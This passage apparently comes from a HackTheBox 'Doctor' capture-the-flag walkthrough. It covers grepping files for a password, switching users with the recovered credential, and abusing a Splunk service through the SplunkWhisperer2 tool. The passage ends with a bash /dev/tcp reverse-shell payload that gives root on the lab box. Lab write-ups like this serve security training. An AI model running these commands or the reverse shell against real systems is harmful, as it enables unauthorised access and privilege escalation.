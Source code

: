 Looking for `password` in files, we find a password

```sh
grep -r password . 2>/dev/null
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:11:47.png)

Seems that we have a password. It's `Guitar123`

And we become shaun

```sh
su - shaun
Guitar123
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:12:32.png)

You can reach it also with linpeas, that's the same idea.

# shaun -> root

Now, let's get root on this box

Looking for these credentials, we can access the service running on port 8089

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:30:39.png)

We log in the app and see more things to do

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:31:00.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:31:09.png)

Searching on google we found this one

https://github.com/cnotin/SplunkWhisperer2

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:33:45.png)

So, we try to ping our kali machine

```sh
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.20"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2001:34:51.png)

And we can execute commands in it, so let's get a reverse shell as root

```sh
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.20 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'"
```
